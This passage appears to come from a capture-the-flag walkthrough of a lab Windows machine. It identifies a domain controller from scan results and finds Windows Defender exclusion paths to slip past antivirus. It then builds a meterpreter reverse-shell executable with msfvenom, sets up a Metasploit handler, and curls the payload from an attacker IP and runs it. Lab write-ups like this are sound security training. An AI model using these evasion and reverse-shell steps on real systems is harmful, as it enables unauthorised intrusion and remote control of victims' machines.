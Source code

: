 After couple minutes we can check the open ports dumped into a txt file:
```
PS C:\Users\edavies\Documents> type scanresults.txt | Select-String Open

172.16.22.1,tcp,53,Open
172.16.22.1,tcp,88,Open
172.16.22.1,tcp,135,Open
172.16.22.1,tcp,139,Open
172.16.22.1,tcp,389,Open
172.16.22.1,tcp,443,Open
172.16.22.1,tcp,445,Open
172.16.22.1,tcp,464,Open
172.16.22.1,tcp,593,Open
172.16.22.1,tcp,636,Open
```

Looks like this IP is a Domain Controller, as it is running Kerberos and LDAP. Let’s get a real shell by uploading our reverse shell executable. If we try to run executable from either home directory or programdata, it gives us error message. Antivirus is running, probably defender. So, we can query the registry to find whitelisted paths.

### AV whitelist paths
```PowerShell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
 C:\Utils               REG_DWORD    0x0  
 C:\Windows\System32    REG_DWORD    0x0
```

As you can see, there are two folders which are whitelisted. We can use `C:\Utils` directory to execute our reverse shell. Let’s download our executable there and run it.

### Metasploit reverse shell
Create the reverse shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -f exe -o reverse.exe
```

Setup metasploit handler:
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 9001
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9001
```

Download the reverse shell to Acute machine and execute:
```PowerShell
cd C:\Utils
curl 10.10.14.14/reverse.exe -o reverse.exe
.\reverse.exe
```
